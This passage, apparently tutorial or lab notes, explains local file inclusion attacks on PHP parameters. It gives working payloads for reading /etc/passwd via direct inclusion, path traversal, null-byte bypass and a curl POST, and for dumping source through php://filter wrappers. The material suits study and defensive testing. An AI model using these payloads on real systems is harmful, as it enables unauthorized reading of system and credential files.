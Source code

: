 We look at the url parameter always and try to replace it with the files you want to get access to. Below are two URLs; first one is normal request to retrieve \[hi.php] and second one is a request to retrieve \[/etc/passwd] via local file inclusion

```
Normal Request
http://domain.com/test.php?file=hi.php
Malicious request
http://domain.com/test.php?file=/etc/passwd/
```

**Method two: using path traversal to expose sensitive files**

Here we use directory traversal to move up in the directory structure of the target machine to reach the \[/etc/] or even \[/root]

```
Normal Request
http://domain.com/test.php?file=hi.php
Malicious request
http://domain.com/test.php?file=/../../../../etc/passwd
```

The number of \[dots] and \[slashes] depend on the current working directory. Use trial and error to find the current working directory of the target machine.

**Method three: using the null bytes to bypass extensions**

Sometimes the webserver appends extensions such as \[.php] to the value of the URL parameter so if you request \[test.php?file=hi] the web server will evaluate it as \[test.php?file=hi.php] which means if you try to use or append \[/etc/passwd] it will result in 404 error. To bypass this we use the null byte to ignore whatever comes after the payload

```
Normal Request
http://domain.com/test.php?file=hi
Malicious request
http://domain.com/test.php?file=/../../../../etc/passwd%00
```

**Method four: using POST requests**

Sometimes the server only accepts post requests which means you will need to change that using either BurpSuite or curl. Below is an example curl command to execute LFI

```
curl -X POST http://domain.com/test.php  -d 'method=POST&file=/../../../../etc/passwd%00'
```

**Method five; Using the php wrapper filter**

Use this method if you want to read contents of php files because normally the content of php files can't be viewed with regular \[LFI]. We use \[base64] or \[ROT13] so that the web server doesn't execute the content of the \[php] file we are viewing.

```
http://example.thm.labs/page.php?file=php://filter/read=string.rot13/resource=/index.php 

http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/index.php
```

